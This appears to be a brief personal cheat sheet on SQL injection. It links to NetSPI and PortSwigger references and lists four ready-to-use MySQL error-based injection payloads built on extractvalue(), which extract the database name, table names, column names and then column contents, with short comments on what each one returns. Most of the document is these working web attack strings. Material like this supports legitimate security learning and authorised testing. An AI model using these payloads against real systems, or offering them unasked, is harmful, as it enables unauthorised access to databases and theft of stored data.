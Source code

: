 # SQLi
### NetSPI:
https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql

### PortSwigger:
https://portswigger.net/web-security/sql-injection

### XPATH payloads:
* %' and extractvalue(rand(),concat(0x3a,(select database())));-- -
* %' and extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema='<database_name>' limit 0,1)));-- -       ####:> will show only the first line of the table (0,1)
* %' and extractvalue(rand(),concat(0x3a,(select column_name from information_schema.columns where table_name='<table_name>' limit 0,1)));-- -          ####:> will show only the first column (0,1)
* %' and extractvalue(rand(),concat(0x3a,(select <column name> from <table name> limit 1)));-- -   ####:> will drop the information that you are looking for
